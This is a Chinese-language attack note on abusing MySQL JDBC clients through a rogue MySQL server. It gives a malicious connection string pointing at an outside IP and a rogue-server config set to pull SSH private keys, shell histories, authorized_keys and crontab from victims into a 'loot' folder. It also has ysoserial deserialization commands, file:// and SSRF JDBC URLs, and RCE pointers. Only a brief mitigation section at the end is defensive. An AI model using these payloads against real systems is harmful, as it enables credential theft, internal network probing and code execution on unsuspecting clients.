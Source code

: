

## [**MySQL** 服务端恶意读取客户端任意文件漏洞]

<https://cloud.tencent.com/developer/article/1818089>

如果java的mysql的jdbc连接信息可以自定义，可以修改mysql的ip和连接配置如：
```
test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true#
jdbc:mysql://47.109.58.205:3306/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true#
root
password

代码：
DriverManager.getConnection();
```
可以使用下方的项目伪造一个mysql服务，从而读取客户端的文件。
<https://github.com/rmb122/rogue_mysql_server>


^
```
host: 0.0.0.0
port: 3306
version_string: "10.4.13-MariaDB-log"

file_list: ["/root/.bash_history","C:/boot.ini","/var/log/mysqld.log","/etc/os-release","/root/.mysql_history","/etc/issue","/root/.ssh/id_rsa","/var/log","/etc/ssh/sshd_config","/etc/crontab","/root/.ssh/authorized_keys","/root/.ssh/id_rsa.pub"]
save_path: ./loot
always_read: true
from_database_name: false
max_file_size: 0

auth: false
users:
  - root: root
  - root: password

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']

```
```
/var/log/mysqld.log 可能有mysql密码
```

^
## **列目录和SSRF**
另外如果需要读文件, mysql-connector-java 支持使用 `file://` 列目录 (当然其他协议, 例如 http 来 SSRF 也是可以的), 但是需要在 `allowLoadLocalInfile` 为 true 之外, 额外指定 `allowUrlInLocalInfile` 为 true, 详情见[这里](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)\
E.g.

* 列 `/` 目录, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`




^
## **MySQL JDBC RCE 姿势**

mysql-connector-java >= 8.0.20, >= 5.1.49 中不可用。连接回显的时候可以看版本。
利用的jdbc反序列化RCE。
<https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b>\
<https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2>


## **修复读文件**
原生的场景下可以使用预先定义的Properties将URL中的属性覆盖掉，就可以关闭本地文件读取以及URL读取了。




MySQL 8 及更高版本中，默认情况下出于安全考虑，`LOAD DATA LOCAL INFILE` 命令是被禁用的，即关闭allowloadlocalinfile参数。

```
String driver = "com.mysql.jdbc.Driver";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?user=test&maxAllowedPacket=655360&allowLoadLocalInfile=true";
Class.forName(driver);
Properties properties = new Properties();
properties.setProperty("allowLoadLocalInfile","false");
properties.setProperty("allowUrlInLocalInfile","false");
properties.setProperty("allowLoadLocalInfileInPath","");
Connection conn = DriverManager.getConnection(DB_URL,properties);
```

